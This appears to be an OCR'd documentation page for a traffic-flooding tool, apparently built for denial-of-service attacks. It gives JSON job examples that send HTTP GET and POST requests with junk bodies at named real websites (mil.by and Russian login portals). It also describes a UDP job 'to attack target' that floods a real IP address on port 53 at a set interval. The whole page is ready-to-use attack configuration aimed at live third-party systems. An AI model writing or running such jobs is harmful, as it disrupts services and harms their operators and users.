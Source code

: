 Use different methods to generate 'real-like' traffic.
You can also use jobs with different methods if you know sites' API.

### Examples 

```json
{
      "type": "http",
      "args": {
        "method": "GET",
        "path": "https://www.mil.by/",
        "headers": {}
      }
}
```
```json
{
      "type": "http",
      "args": {
        "method": "POST",
        "path": "https://capsule.rt.ru/Login/Login",
        "headers": {
          "Authorization": "Bearer: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c"
        },
        "body": "{{- random_payload 100 -}}"
      }
}
```
```json
{
      "type": "http",
      "args": {
        "method": "POST",
        "path": "https://portal.rt-dc.ru/index.php?login=yes",
        "headers": {
          "Authorization": "Bearer: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxMjM0NTY3ODkwIiwibmFtZSI6IkpvaG4gRG9lIiwiaWF0IjoxNTE2MjM5MDIyfQ.SflKxwRJSMeKKF2QT4fwpMeJf36POk6yJV_adQssw5c"
        },
        "body": "lkasdng.,afgn.,asngfjklawne;la nsdfjasd;sa.gn wjae fnjaksdbgjkasndg,.asdnfm,sadnf,.mn"
      }
}
```



# UDP JOB

Use to attack target via udp protocol. 

`"args.address"` in format `ip:port` or `hostname:port`

**Structure of UDP Job**
```json
{
      "type": "udp",
      "args": {
        "address": "80.87.198.26:53",
        "interval_ms": 135,
        "body": "lasdhgk;jasngjkla;sdbngjkalnerjasndkgjbadsgjklabrgjkbsandkjgbasklebgjaskbdgaskljdgbaslhkdg"
      }
}
```
